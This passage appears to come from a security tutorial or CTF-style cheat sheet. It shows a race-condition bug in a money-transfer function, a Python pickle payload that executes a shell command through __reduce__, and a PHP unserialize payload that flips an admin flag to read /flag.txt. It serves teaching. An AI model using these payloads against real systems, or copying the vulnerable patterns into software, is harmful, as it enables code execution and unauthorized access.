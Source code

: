 ```python
# Vulnerable transfer function
def transfer(from_account, to_account, amount):
    if get_balance(from_account) >= amount:  # Check
        # Race window here!
        deduct_balance(from_account, amount)  # Use
        add_balance(to_account, amount)
    else:
        raise InsufficientFunds

# Exploit: Send multiple concurrent transfer requests
# Both pass balance check before first deduction
```

### Insecure Deserialization

**Python pickle vulnerability:**

```python
import pickle
import os

# Malicious payload
class Exploit:
    def __reduce__(self):
        return (os.system, ('whoami',))

# Serialize
payload = pickle.dumps(Exploit())

# Vulnerable code
pickle.loads(payload)  # Executes os.system('whoami')!
```

**PHP unserialize vulnerability:**

```php
<?php
class User {
    public $isAdmin = false;

    public function __wakeup() {
        if ($this->isAdmin) {
            include('/flag.txt');
        }
    }
}

// Vulnerable code
$user = unserialize($_GET['data']);

// Exploit: ?data=O:4:"User":1:{s:7:"isAdmin";b:1;}
?>
```

---